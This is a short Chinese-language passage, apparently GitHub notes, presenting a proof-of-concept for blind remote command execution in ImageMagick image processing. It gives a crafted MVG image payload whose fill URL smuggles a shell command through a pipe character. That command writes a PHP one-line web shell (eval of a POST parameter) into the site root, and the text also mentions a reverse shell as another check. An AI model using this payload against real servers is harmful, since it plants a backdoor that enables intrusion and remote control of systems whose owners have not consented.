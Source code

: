 

**远程命令执行测试和使用POC**

远程命令执行无回显，可通过写文件或者`反弹 shell` 来验证漏洞存在。

目标图片：
![](img/6.png)

- 写一句话到网站根目录下：
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://xxxxx.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
    ```
